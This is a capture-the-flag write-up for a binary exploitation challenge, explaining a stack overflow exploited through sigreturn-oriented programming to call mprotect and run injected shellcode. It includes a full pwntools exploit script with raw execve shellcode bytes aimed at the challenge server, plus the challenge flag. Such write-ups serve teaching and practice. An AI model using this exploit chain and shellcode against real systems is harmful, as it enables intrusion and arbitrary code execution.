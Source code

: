 # CHALLENGE DESCRIPTION
You came this far using Solar Designer technique and advance technique, now you are into the gr4n173 world where you can't win just with fake rope/structure but here you should fake the signal which is turing complete.

IDA decompiled *MAIN* function:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-D0h]

  nvm_init(*(_QWORD *)&argc, argv, envp);
  nvm_timeout();
  printf(
    "Hello pwners, it's gr4n173 wired machine.\n"
    "Can you change the behaviour of a process, if so then take my Buffer  @%p, from some part of my process.\n",
    &buf);
  read(0, &buf, 0x1388uLL);
  return 0;
}
```

there is an overflow as the input can exceed the buffer size.

There are also 2 other interesting function.<br />
Function *eax_rax*:
```c
.text:00000000004007D8 ; =============== S U B R O U T I N E =======================================
.text:00000000004007D8
.text:00000000004007D8 ; Attributes: bp-based frame
.text:00000000004007D8
.text:00000000004007D8                 public eax_rax
.text:00000000004007D8 eax_rax         proc near
.text:00000000004007D8 ; __unwind {
.text:00000000004007D8                 push    rbp
.text:00000000004007D9                 mov     rbp, rsp
.text:00000000004007DC                 mov     eax, 0Fh
.text:00000000004007E1                 retn
.text:00000000004007E1 eax_rax         endp ; sp-analysis failed
```

Which is basically a gadget to set rax to 15 (0xF).<br />
Function *useful_function*:
```c
.text:00000000004007CE ; =============== S U B R O U T I N E =======================================
.text:00000000004007CE
.text:00000000004007CE ; Attributes: bp-based frame
.text:00000000004007CE
.text:00000000004007CE                 public useful_function
.text:00000000004007CE useful_function proc near
.text:00000000004007CE ; __unwind {
.text:00000000004007CE                 push    rbp
.text:00000000004007CF                 mov     rbp, rsp
.text:00000000004007D2                 syscall                 ; LINUX -
.text:00000000004007D4                 retn
```
Which is basically a syscall gadget.<br /><br />

So at this point we have all the ingredients:
- Description talk about signal --> Sigreturn-oriented programming (aka SROP)
- Buffer overflow
- Buffer start address --> one stack address to use mprotect and also the address of the buffer in which we will place shellcode
- gadget to set rax to 15 which is SIGRETURN SYSCALL NUMBER
- gadget to execute a SYSCALL
<br /><br />

So the idea is:
- trigger the overflow injecting a shellcode to open a shell, and a signal frame to SROP
- read the buffer leaked
- execute a SROP invoking the mprotect passing the buffer address ALIGNED to pages (12 least bit must be set to 0), permission rwx (number 7), return addresss = buffer. infact from man page of mprotect:
       ERROR: ...  EINVAL The addr argument is not a multiple of the page size as returned by sysconf().
- Mprotect will set the permission of the stack as RWX
- After the execution Mprotect will jump to the return address (which we use buffer address since our shellcode is placed there)
- the shellcode will be executed opening a shell
<br /><br />
### EXPLOIT
```python
from pwn import *

context.clear(arch="amd64")
c = remote('rrop.darkarmy.xyz', 7001)
#c = process("./rrop")
pad = 216

# ENTRIES
syscall_ret = 0x00000000004007D2
mov_rax_15_ret = 0x00000000004007DC

# LEAK
c.recvuntil("@0x")
leak = int(c.recvuntil(",")[:-1], 16)
print ("Buff @ " + hex(leak))

#pause() # STOP TO ATTACH GDB
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' # x86_64 EXECVE SHELLCODE

# EXPLOIT
payload = shellcode # PLACING SHELLCODE IN BEGINNING OF BUFF
payload = payload.ljust(pad, b'A') # FILLING STACK TO SAVED RIP
payload += p64(mov_rax_15_ret) # SET RAX TO SIGRETURN SYSCALL NUMBER
payload += p64(syscall_ret) # CALL SIGRETURN
# BUILD FAKE FRAME
frame = SigreturnFrame(kernel="amd64") # CREATING A SIGRETURN FRAME
#frame = SigreturnFrame() 
frame.rax = 10 # SET RAX TO MPROTECT SYSCALL NUMBER
frame.rdi = leak&~(0xfff) # SET RDI TO BUFF ADDRESS
frame.rsi = 2000 # SET RSI TO SIZE
frame.rdx = 7 # SET RDX => RWX PERMISSION
frame.rsp = leak + len(payload) + 248 # WHERE 248 IS SIZE OF FAKE FRAME, CAUSE WE STILL NEED TO CONTROL RIP AFTER!
frame.rip = syscall_ret # SET RIP TO SYSCALL ADDRESS
# PLACE FAKE FRAME IN STACK
payload += bytes(frame)
payload += p64(leak) # RETURN2SHELLCODE

# SENDING
c.sendline(payload)

c.interactive()
```

# FLAG
`darkCTF{f1n4lly_y0u_f4k3_s1gn4l_fr4m3_4nd_w0n_gr4n173_w1r3d_m4ch1n3}`



